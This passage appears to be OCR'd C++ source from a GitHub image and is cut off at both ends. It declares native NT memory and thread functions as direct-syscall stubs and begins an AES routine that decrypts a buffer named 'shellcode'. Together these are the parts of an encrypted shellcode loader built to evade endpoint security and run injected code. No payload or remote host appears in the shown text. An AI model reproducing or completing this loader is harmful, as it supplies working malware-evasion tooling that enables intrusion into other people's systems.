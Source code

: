 ```cpp
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T RegionSize,
	ULONG AllocationType,
	ULONG Protect
);
EXTERN_C NTSTATUS NtProtectVirtualMemory(
	IN HANDLE ProcessHandle,
	IN OUT PVOID* BaseAddress,
	IN OUT PSIZE_T RegionSize,
	IN ULONG NewProtect,
	OUT PULONG OldProtect);

EXTERN_C NTSTATUS NtCreateThreadEx(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer
);
EXTERN_C NTSTATUS NtWaitForSingleObject(
	IN HANDLE Handle,
	IN BOOLEAN Alertable,
	IN PLARGE_INTEGER Timeout
);

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;
	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES,
		CRYPT_VERIFYCONTEXT)) {
		printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
		return;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
		printf("Failed in CryptCreateHash (%u)\n", GetLastError());
		return;
	}
	if (!CryptHashData(hHash, (BYTE*)key, keyLen, 0)) {
		printf("Failed in CryptHashData (%u)\n", GetLastError());
		return;
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
		printf("Failed in CryptDeriveKey (%u)\n", GetLastError());
		return;
	}
